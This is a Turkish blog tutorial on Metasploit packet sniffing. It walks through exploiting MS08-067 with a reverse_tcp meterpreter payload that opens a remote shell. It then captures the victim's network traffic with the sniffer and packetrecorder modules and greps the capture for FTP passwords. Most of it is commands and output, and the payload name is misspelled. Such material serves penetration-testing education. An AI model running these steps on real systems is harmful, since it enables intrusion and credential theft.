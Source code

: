 ```yaml
---
draft: false

title:  'MSF Paket Dinleme'
date: '2017-06-05T13:32:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme\_paket dinleme\_adı verilmektedir." 
 
url:  /tr/msf-paket-dinleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Paket Dinleme



Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme **paket dinleme** adı verilmektedir.



Meterpreter, `sniffer` modülü ile bu trafiği kaydedebilirsiniz. Toplamda 200.000 pakete kadar kayıt yapabilen `sniffer` modülü, paketleri PCAP formatında kaydeder. Böylece PCAP dosyasını `psnuffle, dsniff veya wireshark` programlarıyla analiz edebilirsiniz.



Meterpreter `sniffer` eklentisi MicroOLAP Packet Sniffer SDK kullanır. Paketleri dinlemek için diskin herhangi bir yerinden veri alıp verme işlemi yapmaz. Ayrıca, meterpreter tarafından oluşturulan paketler kayıt dışı tutarak karışıklığın önüne de geçer. Meterpreter tarafından yakalanan veriler, bilgisayarımıza SSL/TLS kullanılarak şifreli olarak aktarılır.



## Meterpreter Oturum Açalım



Öncelikle keşfettiğiniz bir servis veya zafiyeti kullanarak meterpreter oturumu açmalısınız. Aşağıda örneğini görebilirsiniz.


```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit**(**ms08_067_netapi**)** > set PAYLOAD windows/meterpeter/reverse_tcp
msf exploit**(**ms08_067_netapi**)** > set LHOST 10.211.55.126
msf exploit**(**ms08_067_netapi**)** > set RHOST 10.10.1.119
msf exploit**(**ms08_067_netapi**)** > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Triggering the vulnerability...
> Transmitting intermediate stager **for **over-sized stage...**(**216 bytes**)**
> Sending stage **(**205824 bytes**)**
> Meterpreter session 1 opened **(**10.10.1.4:4444 -> 10.10.1.119:1921**)**
```



## Sinffer Modülünü Yükleyelim



Meterpreter oturumu açıldığında `use sniffer` komutuyla eklentiyi aktif hale getirmeliyiz. Ardında `help` komutunu verdiğinizde, yardım listesinde `sniffer` ile ilgili kullanılabilir durumda olan komutları görebilirsiniz.


```bash
meterpreter > use sniffer
Loading extension sniffer...success.

meterpreter > help

Sniffer Commands
**================**

     Command             Description
     -------             -----------
     sniffer_dump        Retrieve captured packet data
     sniffer_interfaces  List all remote sniffable interfaces
     sniffer_start       Capture packets on a previously opened interface
     sniffer_stats       View statistics of an active capture
     sniffer_stop        Stop packet captures on the specified interface
```



## Dinlenebilir Arayüzler



Hedef sistemde hangi ağ arayüzlerinin aktif olduğunu görmek için `sniffer_interfaces` komutunu kullanarak listeyi inceliyoruz.


```bash
meterpreter > sniffer_interfaces

1 - 'VMware Accelerated AMD PCNet Adapter' **(** type:0 mtu:1514 usable:true dhcp:true wifi:false **)**
```



## Dinlemeye Başlama



Bizim örneğimizde 1 adet arayüz bulunmaktadır. Bu ağ cihazını dinlemek için `sniffer_start 1` komutunu veriyoruz. Bilgiler `/tmp/all.cap` dosyasına kayıt edilecektir.


```bash
meterpreter > sniffer_start 1
> Capture started on interface 1 **(**200000 packet buffer**)**
```



## Kayıtları Kontrol Etme



Dinleme işlemi devam ederken, ne kadar paketin kayıt edildiğini görmek için `sniffer_dump` komutunu kullanarak kaç adet paketin dosyaya yazıldığını görebilirsiniz.


```bash
meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 19 packets to PCAP file /tmp/all.cap

meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 199 packets to PCAP file /tmp/all.cap
```



## packetrecorder Eklentisi



Meterpreter `sniffer` eklentisinin yanında paket dinleme için geliştirilen `packetrecorder` script kodlarını da kullanabilirsiniz. Bu modül, paket kayıtlarını belirli zaman aralıklarına bölmenizi sağlar. Örneğin 30 Saniye aralıklarla kayıt yapmak isteyebilirsiniz.



<h3 class="wp-block-heading" id="packetrecorder-aktif-hale-getirelim">packetrecorder Aktif Hale Getirelim


```bash
meterpreter > run packetrecorder 
Meterpreter Script **for **capturing packets **in **to a PCAP file
on a target host given a interface ID.

OPTIONS:

    -h        Help menu.
    -i   Interface ID number where all packet capture will be **done**.
    -l   Specify and alternate folder to save PCAP file.
    -li        List interfaces that can be used **for **capture.
    -t   Time interval **in **seconds between recollection of packet, default 30 seconds.
```



Dinlemeye başlamadan önce, dinlenebilir arayüzlerin listesini kontrol edelim.


```bash
meterpreter > run packetrecorder -li

1 - 'Realtek RTL8139 Family PCI Fast Ethernet NIC' **(** type:4294967295 mtu:0 usable:false dhcp:false wifi:false **)**
2 - 'Citrix XenServer PV Ethernet Adapter' **(** type:0 mtu:1514 usable:true dhcp:true wifi:false **)**
3 - 'WAN Miniport (Network Monitor)' **(** type:3 mtu:1514 usable:true dhcp:false wifi:false **)**
```



Bu örneğimizde 3 adet ağ cihazı olduğunu görüyoruz. `-i 2` seçeneği ile 2 numaralı arayüzü dinleyeceğimizi belirtmiş oluyoruz. `-l /root/` seçeneği ile PCAP dosyasının nereye kayıt edileceğini belirliyoruz. Dinleme başladığından bir süre sonra işlemi bitirmek için `CTRL+C` tuşlarını kullanabilirsiniz.


```bash
meterpreter > run packetrecorder -i 2 -l /root/
> Starting Packet capture on interface 2
**[**+] Packet capture started
> Packets being saved **in **to /root/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105/XEN-XP-SP2-BARE_20101119.5105.cap
> Packet capture interval is 30 Seconds
^C
> Interrupt 
**[**+] Stopping Packet sniffer...
meterpreter >
```



Kayıt edilen PCAP dosyasını `wireshark` veya `tshark` programıyla analiz edebilirsiniz. Aşağıda `tshark` komutuna ait bir örnek bulunmaktadır. Örnek komutta, paketlerin içinde geçen `PASS` ifadesinin bulunduğu paketler aranmaktadır.


```bash
root@kali:~/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105# tshark -r XEN-XP-SP2-BARE_20101119.5105.cap |grep PASS
Running as user "root" and group "root". This could be dangerous.
2489  82.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t
2685  96.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t```
